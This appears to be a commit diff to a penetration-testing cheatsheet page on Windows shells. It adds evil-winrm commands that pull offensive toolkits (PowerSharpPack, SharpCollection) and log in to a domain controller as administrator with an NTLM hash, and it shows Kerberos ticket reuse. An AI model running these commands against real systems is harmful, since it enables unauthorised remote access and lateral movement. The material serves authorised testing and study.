

Before and after one commit to trojand/cheatsheet, an MkDocs documentation site: the page built from docs/Windows/Shells.md, in a window 1280 px wide and 900 px high, scrolled down 2043 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 2743 px from its top, so only the background shows below that.

Commit message:
Update Shells.md
Evil-winrm boost

````diff
--- a/docs/Windows/Shells.md
+++ b/docs/Windows/Shells.md
@@ -89,8 +89,17 @@ powershell -EncodedCommand <Base64_payload>
 
 ### Tools for remote CLI connection
 * [Evil-Winrm](https://github.com/Hackplayers/evil-winrm) [^1][^2]
+    ```bash
+    cd /opt
+    git clone https://github.com/S3cur3Th1sSh1t/PowerSharpPack
+    git clone https://github.com/Flangvik/SharpCollection
+    mkdir ~/Results/evil-winrm
+    sudo docker run --rm -ti --name evil-winrm -v /opt/PowerSharpPack/PowerSharpBinaries:/ps1_scripts -v /opt/SharpCollection/NetFramework_4.5_x64:/exe_files -v /home/kali/Results/evil-winrm:/data oscarakaelvis/evil-winrm -i DC01.ACME.LOCAL -u administrator -H 'db3d398badf62934dfa291db9a6ffdc0' -s '/ps1_scripts/' -e '/exe_files/'
     ```
-    bundle exec evil-winrm -s "/opt/PowerSharpPack/PowerSharpBinaries" -e "/opt/Sharp collection/NetFramework_4.5_x64" -i DC.ACME.LOCAL  -u administrator -p 'P@ssw0rd'
+    * Use below if making use of ptt (kerberos auth)
+    ```bash
+    export KRB5CCNAME=/tmp/administrator.ccache
+    bundle exec evil-winrm -s "/opt/PowerSharpPack/PowerSharpBinaries" -e "/opt/Sharp collection/NetFramework_4.5_x64" -i DC01.ACME.LOCAL -r acme.local
     ```
 [^1]: [Sharp Collection](https://github.com/Flangvik/SharpCollection)
 [^2]: [Power Sharp Pack](https://github.com/S3cur3Th1sSh1t/PowerSharpPack)
````
